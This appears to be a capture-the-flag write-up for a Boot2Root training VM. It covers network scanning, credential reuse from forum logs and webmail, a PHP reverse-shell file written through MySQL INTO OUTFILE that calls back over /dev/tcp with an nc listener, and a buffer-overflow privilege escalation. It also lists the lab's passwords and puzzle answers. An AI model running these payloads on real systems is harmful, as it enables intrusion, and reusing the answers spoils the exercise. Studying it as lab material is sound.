


# Boot2Root WriteUp 1
## Step 1
We dont have any ip addres and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.168.56.1/24 ...
        ....
We now have the addres ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.168.56.1/24
        ...
        192.168.56.101
        ...

There it is we have our ip address: `192.168.56.101` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb inside a kali container:

    $> docker run -it kalilinux/kali-rolling:latest
    $> apt update && apt install -y dirb
    $> dirp https://192.156.56.101
    ...
    https://192.156.56.101/forum
    https://192.156.56.101/phpmyadmin
    https://192.156.56.101/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q]Ej?5K5cyAJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q]Ej?5K5cyAJ

Gotem ! We have acces to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`

## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to lmezard in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall be hash with sha256 to access `zaz` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage

so the result is :

    username: zaz
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explore !

We need to reverse engineering the bin `bomb` to defuse it and acces the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase with we use specific answers.

- Phase Secret: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the hend of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

The size writen inside buf is controled by the user and not by the program.
We use `payload.py` to generate a payload that will change the return addres of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the addres of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !
